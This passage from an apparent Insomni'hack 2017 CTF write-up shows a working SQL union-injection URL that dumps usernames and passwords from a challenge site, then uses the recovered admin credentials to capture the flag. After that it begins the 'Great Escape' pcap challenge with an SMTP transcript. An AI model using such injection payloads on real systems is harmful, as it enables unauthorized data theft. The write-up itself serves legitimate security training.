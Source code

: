     http://shobot.teaser.insomnihack.ch/?page=article&artid=4%27%20%20union%20select%201,shbt_username,shbt_userpassword,4,5%20from%20shbt_user%23

Then we need to authenticate, on the admin page, using the direct URL but
authenticating as for the Smartomcat challenge just worked:

    http://sh0b0t4dm1n:N0T0R0B0TS$L4V3Ry@shobot.teaser.insomnihack.ch/?page=admin

And give us the flag:

>Ok, ok, you win... here is the code you search : INS{##r0b0tss!4v3ry1s!4m3}

## The great escape - part 1

>Hello,
>
>We've been suspecting Swiss Secure Cloud of secretely doing some pretty advanced research in artifical intelligence and this has recently been confirmed by the fact that one of their AIs seems to have escaped from their premises and has gone rogue. We have no idea whether this poses a threat or not and we need you to investigate what is going on.
>
>Luckily, we have a spy inside SSC and they were able to intercept some communications over the past week when the breach occured. Maybe you can find some information related to the breach and recover the rogue AI.
>
>X
>
>Note: All the information you need to solve the 3 parts of this challenge is in the pcap. Once you find the exploit for a given part, you should be able to find the corresponding flag and move on to the next part.

We got a pcap, we open it in wireshark, we found an email:

    ::text
    220 9b0c4882db95.home ESMTP Postfix (Ubuntu)
    ehlo ip-172-31-36-141.eu-west-1.compute.internal
    250-9b0c4882db95.home
    250-PIPELINING
    250-SIZE 10240000
    250-VRFY
    250-ETRN
    250-STARTTLS
    250-ENHANCEDSTATUSCODES
    250-8BITMIME
    250-DSN
    250 SMTPUTF8
    mail FROM:<rogue@ssc.teaser.insomnihack.ch> size=900
    250 2.1.0 Ok
    rcpt TO:<gr27@ssc.teaser.insomnihack.ch>
    250 2.1.5 Ok
    data
    354 End data with <CR><LF>.<CR><LF>
    Content-Type: multipart/mixed; boundary="===============5398474817237612449=="
    MIME-Version: 1.0
    From: rogue@ssc.teaser.insomnihack.ch
    To: gr27@ssc.teaser.insomnihack.ch
    Date: Fri, 20 Jan 2017 11:51:27 +0000
    Subject: The Great Escape
